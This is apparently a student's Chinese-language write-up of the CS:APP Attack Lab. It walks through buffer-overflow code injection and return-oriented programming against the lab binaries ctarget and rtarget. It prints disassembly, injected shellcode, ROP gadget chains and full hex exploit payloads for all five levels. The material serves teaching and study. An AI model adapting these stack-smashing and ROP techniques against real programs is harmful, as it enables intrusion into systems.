





## Lab3实验记录

简要介绍实验如下，实验要求实现缓冲区溢出攻击中的code injection(CI)和return-oriented programming (ROP)。

详细实验内容请见[attack lab的实验指导](http://csapp.cs.cmu.edu/3e/attacklab.pdf)。该实验指导非常非常重要，描述了整个实验的操作流程和一部分的实验原理，甚至连附录A和B都需要好好阅读。

在实验开始前我们和上一个实验bomb lab一样先通过反汇编得到`ctarget`和`rtarget`的汇编代码。

```shell
$ objdump -d ctarget > ctarget_disas.asm
$ objdump -d rtarget > rtarget_disas.asm
```


### Level 1

该level较为简单。可以看到调用`Gets`前，共分配了40字节的缓冲区大小，而这个栈空间的结构也非常简单，在40字节的缓冲区上面就是返回地址，所以我们只需输入40个字符，再接着输入函数`touch1`对应的地址覆盖掉原来的返回地址，就可以完成该level。

```assembly
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq   
  4017be:	90                   	nop
  4017bf:	90                   	nop
```

在具体操作的过程中我们可以借助附录A提供的指导，使用`hex2raw`来完成转换。

`exploit.txt`文件内容如下：

```assembly
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
c0 17 40
```

执行代码

```shell
$ ./hex2raw < exploit.txt > exploit-raw.txt
$ ./ctarget < exploit-raw.txt -q
```

完成截图



### Level 2

相比上一阶段简单地覆盖掉返回地址，该level需要我们注入一段代码，在注入的代码中设置\$rdi的值，然后再调用`touch2`

注入的代码`inject_code.s`如下：

```assembly
mov $0x59b997fa,%rdi  //设置函数参数，即cookie.txt中cookie的值
push $0x4017ec  //touch2的地址
ret
```

接下来我们需要将汇编代码翻译成机器代码，这时候可以使用[attack lab的实验指导](http://csapp.cs.cmu.edu/3e/attacklab.pdf)附录B中的提示，通过使用gcc编译器和反汇编器来获取机器代码。命令如下：

```shell
$ gcc -c inject_code.s 
$ objdump -d inject_code.o > inject_code.asm
```

这时查看`inject_code.asm`即可得到机器代码

```assembly

inject_code.o：     文件格式 elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	68 ec 17 40 00       	pushq  $0x4017ec
   c:	c3                   	retq   

```

获取到机器代码后我们接下来要获取到我们输入的字符串在内存中的首地址，即执行`Gets`前的\$rsp的值。由于我们将注入的代码放在输入的字符串中，我们需要这个值来作为执行我们注入代码的入口。其实在该实验中提供的target文件是没有采取栈随机化策略来进行保护，我们才能确保每一次的\$rsp的值都是不变的，这样才能保证注入的代码被正确地调用到。

```assembly
(gdb) p $rsp
$2 = (void *) 0x5561dc78
```

通过gdb我们可以看到\$rsp的值为0x5561dc78

之后我们就可以构造出我们输入字符串的内容

`exploit.txt`文件内容如下：

```assembly
48 c7 c7 fa 97 b9 59 68 ec 17
40 00 c3 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
78 dc 61 55
```

该文件中最前段为注入的代码，中间为填充的字节，后面为覆盖返回地址的值，该值即为输入字符串的首字节地址（提供跳转的地址）。

执行代码

```shell
$ ./hex2raw < exploit.txt > exploit-raw.txt
$ ./ctarget < exploit-raw.txt -q
```

完成截图



### Level 3

该level主要需要我们转换一下思路。在函数`touch3`我们传递一个字符串的首地址，在而后的`hexmatch`函数中我们可以看到该字符串的要求是和cookie.txt中的值组成的字符串完全相等。根据我的`cookie.txt`，即要求这个字符串为`"59b997fa"`。

我们首先可以想到这样一种解决办法：在`exploit.txt`中我们先构造出字符串`"59b997fa"`，然后在注入代码中将字符串的首地址传递到`touch3`，最后在缓冲区溢出的部分覆盖掉栈原来的返回地址。但很快我们会发现这样是不行的。我们会面临这样一个问题：

```assembly
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
```

注意到函数`getbuf`在返回前是释放了栈空间上的缓冲区的，这意味着存放于这个缓冲区上的，无论是我们的注入代码还是构造出的字符串，在后续的代码中都有可能被覆盖掉。注入代码只需要执行一次，然后跳转到其他处，之后就再也不用执行，即使在后续中被覆盖掉也不要紧，但字符串我们是不能让它被覆盖掉的。

既然内存空间不能保存字符串，我们很自然地想到了另外一个地方来保存字符串：寄存器。

```assembly
000000000040184c <hexmatch>:
  40184c:	41 54                	push   %r12
  40184e:	55                   	push   %rbp
  40184f:	53                   	push   %rbx
```

我们观察`hexmatch`的前3行代码，通常来说这三行的作用是为函数使用到的局部变量分配寄存器，但很重要的是这个过程的同时也改变了栈指针和栈指针指向的内存地址上的值。如此我们在注入代码中合理设置\$r12和\$rbp的值，就可以第2-3行代码执行后在栈空间上构造出一个我们需要的字符串。

故注入的代码`inject_code.s`如下：

```assembly
mov $0x5561dc88, %rdi
mov $0x0,%r12
mov $0x6166373939623935,%rbp
push $0x4018fa
ret

```

之后的过程同上，在此不赘述。

完成截图



后来想了想似乎有另一种解法

可以把字符串放在缓冲区溢出的部分...？


### Level 4

该level和level5主要展示出在目标程序采取了栈空间随机化和限制可执行代码区域的策略后进行的攻击手段。具体的实验原理见[attack lab的实验指导](http://csapp.cs.cmu.edu/3e/attacklab.pdf)

该level同样要求我们调用`touch2`并传递正确的参数。首先我们可以考虑在level2中使用的注入代码

```assembly
mov $0x59b997fa, %rdi  //设置函数参数，即cookie.txt中cookie的值
push $0x4017ec  //touch2的地址
ret
```

但随后会发现这样行不通。由于我们使用的代码是来自与`farm.c`(在实际的攻击过程中可能是一个共享库)中的机器代码，而cookie是随机生成的一个数字，显然`farm.c`中恰好符合这个带常数的`mov`指令的概率非常小。所以是需要我们自己把cookie的值在输入字符串的过程中传递进去的。

由于我们输入的字符串只位于栈空间上，准确说是缓冲区和缓冲区溢出的部分，所以我们可以考虑通过`pop`指令来给寄存器赋值，然后再把这个值传递给`touch2`。

我选择的gadget代码如下

```assembly
00000000004019a0 <addval_273>:
  4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  4019a6:	c3                   	retq   
00000000004019a7 <addval_219>:
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
  4019ad:	c3                   	retq   
```

从地址0x4019ab处可以构造出汇编代码：

```assembly
popq %rax
retq
```

从地址0x4019a2处可以构造出汇编代码：

```assembly
movq %rax,%rdi
retq	
```

此时我们已经找到全部需要的代码，接下来要考虑的是构造合适的栈结构，使每一次的`pop`指令和`ret`指令都从栈上获取到我们想要的值。

缓冲区溢出部分的结构如下

0x4017ec  //此为内存高地址处  touch2的地址

0x4019a2 //第二段gadget代码的地址

0x59b997fa //cookie的值

0x4019ab //此为内存低地址处 第一段gadget代码的地址

//再往下的0x28个字节即为缓冲区

最终我们得到exploit.txt内容为

```assembly
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
a2 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```

完成截图



### Level 5

在开始level5之前我有必要放上实验指导中的一段话

> You have also gotten 95/100 points for the lab. That’s a good score. If you have other pressing obligations consider stopping right now.
>
> Moreover, Phase 5 counts for only 5 points, which is not a true measure of the effort it will require. Think of it as more an extra credit problem for those who want to go beyond the normal expectations for the course.

啊如果能真的超越追求分数的功利心，而享受探索知识边界的感觉，那该是多棒的体验。

说话来level5,虽然是一个extra level,但感觉难度也不算大。

但要注意一个很坑的点，在`farm.c`中不是所有代码都是作为gadget代码的，其中有一段代码

```c
/* Add two arguments */
long add_xy(long x, long y)
{
    return x+y;
}	
```

是直接让我们进行调用的。这点十分重要...我直接去看了`farm.c`的汇编代码导致没有注意到这个细节，缺少了这个函数是完全无法完成这个level的。

整体的思路和我在level3中提到的另外一种解法基本一致，我们把cookie对应的字符串放在缓冲区溢出的部分，但要注意的是，字符串的位置需要是内存地址的高位(比进入到gadget代码时的栈指针高出很多)。可以想象我们在执行gadget代码的过程中是需要不断调用`ret`语句的，所以栈指针会不断上移。而我们的字符串不能位于栈指针下面，否则就会被覆盖掉。字符串的位置是由某一时刻的栈指针加上一个偏移量来决定的。计算这个偏移量算是一个难点，但我们执行的代码是确定的，故这个偏移量的位置也是确定的可计算的。

当我们去`farm.c`中寻找我们能使用的gadget代码时，我们会发现能使用的代码是比较少的，特别要注意的是和mov相关的代码，我们会有两种能够使用的`mov`指令，分别是`movl`和`movq`，但其实`movq`只能使用

```assembly
movq %rax,%rdi
movq %rsp,%rax
```

而movl只能使用

```assembly
movl %ecx,%esi
movl %eax,%edx
movl %edx,%ecx
```

这可以说是限定了我们传递给`add_xy`函数的参数的含义，特别是第二个参数%rsi,我们在执行`movl %ecx %esi`时会把%rsi的高32位置0,所以这个参数只能是偏移量。而第一个参数%rdi对应的则是某一时刻栈指针%rsp的值。

分析完以上这些部分后我们就可以写出缓冲区溢出的部分数据分布图如下：

//cookie对应的字符串起始地址，此处为内存高地址处，下面每行为8字节

0x4018fa  //调用`touch3`

0x4019c5  //`mov %rax,%rdi`

0x4019d6 //调用`add_xy`

0x401a27 //`mov %ecx,%esi`

0x401a34 //`mov %edx,%ecx`

0x4019dd //`mov %eax,%edx`

0x48 //偏移量

0x4019ab  //`pop %rax`

0x4019c5  //`mov %rax,%rdi`

<-- rsp        用来和偏移量相加的栈指针的值指向此处

0x401aad  //`mov %rsp,%rax`  

//此处为内存低地址处

阅读代码时应该从下往上读。

故`exploit.txt`文件内容如下：

```assembly
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
ad 1a 40 00 00 00 00 00
c5 19 40 00 00 00 00 00
ab 19 40 00 00 00 00 00
48 00 00 00 00 00 00 00
dd 19 40 00 00 00 00 00
34 1a 40 00 00 00 00 00
27 1a 40 00 00 00 00 00
d6 19 40 00 00 00 00 00
c5 19 40 00 00 00 00 00
fa 18 40 00 00 00 00 00
35 39 62 39 39 37 66 61
```

完成截图

